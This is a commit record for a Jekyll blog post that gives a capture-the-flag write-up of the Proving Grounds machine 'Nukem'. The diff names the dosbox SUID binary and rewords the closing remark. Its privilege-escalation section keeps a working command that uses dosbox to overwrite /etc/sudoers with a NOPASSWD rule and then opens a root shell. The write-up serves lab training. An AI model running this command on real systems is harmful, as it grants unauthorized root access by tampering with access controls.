

Before and after one commit to rossSec/rossSec.github.io, a Jekyll site: the page built from _posts/2023-05-15-PG-Practice-Nukem-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 2828 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2023-05-15-PG-Practice-Nukem-Writeup.md

````diff
--- a/_posts/2023-05-15-PG-Practice-Nukem-Writeup.md
+++ b/_posts/2023-05-15-PG-Practice-Nukem-Writeup.md
@@ -88,7 +88,7 @@ SUID Binaries:
 ```
 
 ## Privesc:
-The way to root on this machine was relatively simple, you overwrite the /etc/sudoers file using a vulnerable SUID bit. This suid can also be located on GTFOBins.
+The way to root on this machine was relatively simple, you overwrite the /etc/sudoers file using a vulnerable SUID bit ```/usr/bin/dosbox```. This SUID's exploit can also be located on GTFOBins.
 ```
 /usr/bin/dosbox -c 'mount c /' -c "echo ALL ALL=(ALL) NOPASSWD: ALL > c:\etc\sudoers" -c exit
 sudo /bin/bash
@@ -96,4 +96,4 @@ sudo /bin/bash
 
 ![77aea311410f46bd0fc73de5fac582b9.png](:/ebeaaf1033fd4346bd4acb5fae005495)
 
-Relatively easy machine.
+Overrall not much was learnt from this box for me at least, however it was fun.
````
Also changed, not shown: other parts of _posts/2023-05-15-PG-Practice-Nukem-Writeup.md (+1 -1 lines).
